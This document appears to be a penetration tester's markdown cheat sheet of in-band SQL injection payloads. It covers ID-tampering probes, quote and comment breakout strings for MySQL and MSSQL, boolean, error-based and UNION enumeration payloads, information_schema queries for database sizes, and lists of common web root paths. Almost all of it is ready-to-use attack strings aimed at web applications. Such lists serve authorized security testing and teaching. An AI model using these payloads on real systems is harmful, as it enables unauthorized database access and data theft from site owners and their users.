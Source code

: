 # In-Band SQL Query List

Search Tag(s): #helpers #sql-injection #webapp

## Change numeric value of parameter ID

- Before adding to the prefix next to the parameter value. Try to change the numeric value from the list below. Another way to confirm the possible SQL injection vulnerability:

```
id=0
id=-1
id=9999.99
```

- You can of course perform mathematical expressions to see if it responds.

```
id=2-1
```

## Boundaries

### Prefix SQL Query List

```
<whitespace>
'
"
\
')
")
```

### Suffix SQL Query List

#### MySQL

```
--
#
%23 <- # urlencoded
/*
--<whitespace>
-- -
-- //
;%00
`
AND ('abc'='abc
```

#### MSSQL

```
/*
-- //
;%00
```

## SQL Payloads

### Boolean-based Payloads

#### Generic SQL

```
OR 1=1
OR '1'='1'
OR 1=2
OR SLEEP(10)
AND 1=1
AND '1'='1'
AND 1=2
AND SLEEP(10)
```

### Error-based Payloads

#### Fields Enumeration

- Increment by determining the number of coulmns

```
ORDER BY n+1
GROUP BY n+1
```

#### Double Injection (SubQuery) Enumeration

```
OR 1=1 IN (SELECT @@VERSION)
AND 1=1 IN (SELECT @@VERSION)
```

### UNION Query Payloads

#### Fields Enumeration

```
UNION SELECT NULL, NULL, ... NULL
```

#### UNION Enumeration

```
UNION SELECT @@VERSION, NULL, ... NULL
```

## Calculate Size

### Database Size

#### MySQL

##### All Databases

- Bytes

```sql
SELECT CONCAT('Database: ', table_schema, ' -> ', ' Bytes Size: ', db_size), NULL FROM (SELECT table_schema, ROUND(SUM(data_length + index_length)) AS db_size FROM information_schema.tables WHERE table_schema = database()) AS subquery

SELECT CONCAT('Database: ', table_schema, ' -> ', ' Bytes Size: ', db_size) FROM (SELECT table_schema, ROUND(SUM(data_length + index_length)) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery

SELECT GROUP_CONCAT('Database: ', table_schema, ' -> ', ' Bytes Size: ', db_size, '\n') FROM (SELECT table_schema, ROUND(SUM(data_length + index_length)) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery
```

- Kilobytes

```sql
SELECT CONCAT(table_schema, ROUND(SUM(data_length + index_length) / 1024, 2) FROM information_schema.tables GROUP BY table_schema

SELECT CONCAT('Database: ', table_schema, ' -> ', ' KB Size: ', db_size) FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024, 2) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery

SELECT GROUP_CONCAT('Database: ', table_schema, ' -> ', ' KB Size: ', db_size, '\n') FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024, 2) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery
```

- Megabytes

```sql
SELECT CONCAT(table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024, 2) FROM information_schema.tables GROUP BY table_schema

SELECT CONCAT('Database: ', table_schema, ' -> ', ' MB Size: ', db_size) FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024, 2) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery

SELECT CONCAT('Database: ', table_schema, ' -> ', ' MB Size: ', db_size, '\n') FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024, 2) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery
```

- Gigabytes

```sql
SELECT CONCAT(table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024 / 1024, 2) FROM information_schema.tables GROUP BY table_schema

SELECT CONCAT('Database: ', table_schema, ' -> ', ' GB Size: ', db_size) FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024 / 1024, 2) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery

SELECT GROUP_CONCAT('Database: ', table_schema, ' -> ', ' GB Size: ', db_size, '\n') FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024 / 1024, 2) AS db_size FROM information_schema.tables GROUP BY table_schema) AS subquery
```

##### Current Database

- Bytes

```sql
SELECT CONCAT('Database: ', table_schema, ' -> ', ' Bytes Size: ', db_size), NULL FROM (SELECT table_schema, ROUND(SUM(data_length + index_length)) AS db_size FROM information_schema.tables WHERE table_schema = database()) AS subquery
```

- Megabytes

```sql
SELECT CONCAT('Database: ', table_schema, ' -> ', ' MB Size: ', db_size), NULL FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024, 2) AS db_size FROM information_schema.tables WHERE table_schema = database()) AS subquery
```

- Gigabytes

```sql
SELECT CONCAT('Database: ', table_schema, ' -> ', ' GB Size: ', db_size), NULL FROM (SELECT table_schema, ROUND(SUM(data_length + index_length) / 1024 / 1024 / 1024, 2) AS db_size FROM information_schema.tables WHERE table_schema = database()) AS subquery
```

## Common Web Root Directories

### Linux

```
/var/www/html/
/var/www/
/var/www/htdocs/
/var/www/sites/
/var/www/public/
/var/www/public_html/
/var/www/html/default/
/var/apache2/htdocs/
/var/www/nginx-default/
/usr/local/apache2/htdocs/
/usr/local/www/data/
/srv/www/
/srv/www/html/
/srv/www/htdocs/
/srv/www/sites/
/home/www/
/home/httpd/
/home/$USER/public_html/
/home/$USER/www/
```

### Windows

```
c:\inetpub\wwwroot\
c:\xampp\htdocs\
c:\wamp\www
```

---
## References

- [WebSec: SQL Injection Knowledge Base](https://www.websec.ca/kb/sql_injection)

- [PayloadsAllTheThings: SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection)

- [PentestLab: SQL Injection Authentication Bypass Cheat Sheet](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)

- [Hacktricks: SQL Login Bypass](https://book.hacktricks.xyz/pentesting-web/login-bypass/sql-login-bypass)

- [SecLists: Linux Web Root Directories](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)

- [SecLists: Windows Web Root Directories](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)

- [Sjoerd Langkemper: Finding common files in the webroot](https://www.sjoerdlangkemper.nl/2018/05/23/creating-a-dirsearch-list/)

- [Phrack.me: SQL Injection Cheatsheet](https://www.phrack.me/exploits/2020/07/09/SQL-Injection-primer.html)